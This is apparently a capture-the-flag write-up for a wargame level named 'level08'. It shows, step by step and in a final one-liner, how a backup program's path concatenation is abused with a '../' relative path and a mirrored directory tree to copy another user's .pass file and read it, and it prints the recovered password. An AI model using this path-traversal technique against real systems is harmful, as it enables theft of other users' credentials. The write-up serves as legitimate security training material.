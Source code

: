 # level08

The executable creates a backup of a file in a `backups` folder.

We want to back up `/home/users/level09/.pass` to get to the next level.

## **The exploit**

We start by moving to a repository we control : `/tmp`

```
cd /tmp
```

Let's start by running the executable from here :

```
$> /home/users/level08/level08
Usage: /home/users/level08/level08 filename
ERROR: Failed to open ./backups/.log
```

We need to create a `backups` directory. We do it :

```
mkdir backups
```

We try again, this time with our `.pass` as file to be backed up :

```
$> /home/users/level08/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

The executable concatenates our `filename` with `./backups/`, so we can't use an absolute path, which starts with `/`.

We try with the relative path :

```
$> /home/users/level08/level08 ../home/users/level09/.pass
ERROR: Failed to open ./backups/../home/users/level09/.pass
```

We're in `/tmp`, so `./backups/..` is also `/tmp`. Which means the program tries to create a file in `/tmp/home/users/level09`. Let's accodomodate it :

```
mkdir -p home/users/level09
```

We run our command again. It works !

A `cat home/users/level09/.pass` gives us the flag we need.


## **The flag**

We can condense our exploit into the following one-liner :

```
cd /tmp ; mkdir -p backups home/users/level09 ; /home/users/level08/level08 ../home/users/level09/.pass ; cat home/users/level09/.pass
```

We get the flag for `level08` :

```
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
